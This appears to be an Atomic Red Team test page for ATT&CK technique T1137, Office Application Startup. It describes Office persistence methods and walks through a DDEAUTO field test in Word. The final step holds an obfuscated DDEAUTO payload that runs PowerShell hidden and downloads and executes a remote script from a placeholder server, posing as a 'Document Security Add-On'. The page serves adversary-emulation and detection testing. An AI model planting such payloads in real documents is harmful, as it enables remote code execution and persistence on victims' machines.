 # T1137 - Office Application Startup
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1137)
<blockquote>Microsoft Office is a fairly common application suite on Windows-based operating systems within an enterprise network. There are multiple mechanisms that can be used with Office for persistence when an Office-based application is started.

### Office Template Macros

Microsoft Office contains templates that are part of common Office applications and are used to customize styles. The base templates within the application are used each time an application starts. (Citation: Microsoft Change Normal Template)

Office Visual Basic for Applications (VBA) macros (Citation: MSDN VBA in Office) can inserted into the base templated and used to execute code when the respective Office application starts in order to obtain persistence. Examples for both Word and Excel have been discovered and published. By default, Word has a Normal.dotm template created that can be modified to include a malicious macro. Excel does not have a template file created by default, but one can be added that will automatically be loaded. (Citation: enigma0x3 normal.dotm) (Citation: Hexacorn Office Template Macros)

Word Normal.dotm location:<code>C:\Users\(username)\AppData\Roaming\Microsoft\Templates\Normal.dotm</code>

Excel Personal.xlsb location:<code>C:\Users\(username)\AppData\Roaming\Microsoft\Excel\XLSTART\PERSONAL.XLSB</code>

An adversary may need to enable macros to execute unrestricted depending on the system or enterprise security policy on use of macros.

### Office Test

A Registry location was found that when a DLL reference was placed within it the corresponding DLL pointed to by the binary path would be executed every time an Office application is started (Citation: Hexacorn Office Test)

<code>HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf</code>

### Add-ins

Office add-ins can be used to add functionality to Office programs. (Citation: Microsoft Office Add-ins)

Add-ins can also be used to obtain persistence because they can be set to execute code when an Office application starts. There are different types of add-ins that can be used by the various Office products; including Word/Excel add-in Libraries (WLL/XLL), VBA add-ins, Office Component Object Model (COM) add-ins, automation add-ins, VBA Editor (VBE), and Visual Studio Tools for Office (VSTO) add-ins. (Citation: MRWLabs Office Persistence Add-ins)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DDEAUTO](#atomic-test-1---ddeauto)


<br/>

## Atomic Test #1 - DDEAUTO

TrustedSec - Unicorn - https://github.com/trustedsec/unicorn

SensePost DDEAUTO - https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

Word VBA Macro

[Dragon's Tail](https://github.com/redcanaryco/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail)

**Supported Platforms:** Windows


#### Run it with these steps!
1. Open Word

2. Insert tab -> Quick Parts -> Field

3. Choose = (Formula) and click ok.

4. Once the field is inserted, you should now see "!Unexpected End of Formula"

5. Right-click the Field, choose "Toggle Field Codes"

6. Paste in the code from Unicorn or SensePost

7. Save the Word document.

9. DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

10. DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\{ QUOTE 87 105 110 100 111 119 115 80 111 119 101 114 83 104 101 108 108 }\\v1.0\\{ QUOTE 112 111 119 101 114 115 104 101 108 108 46 101 120 101 } -w 1 -nop { QUOTE 105 101 120 }(New-Object System.Net.WebClient).DownloadString('http://<server>/download.ps1'); # " "Microsoft Document Security Add-On"


<br/>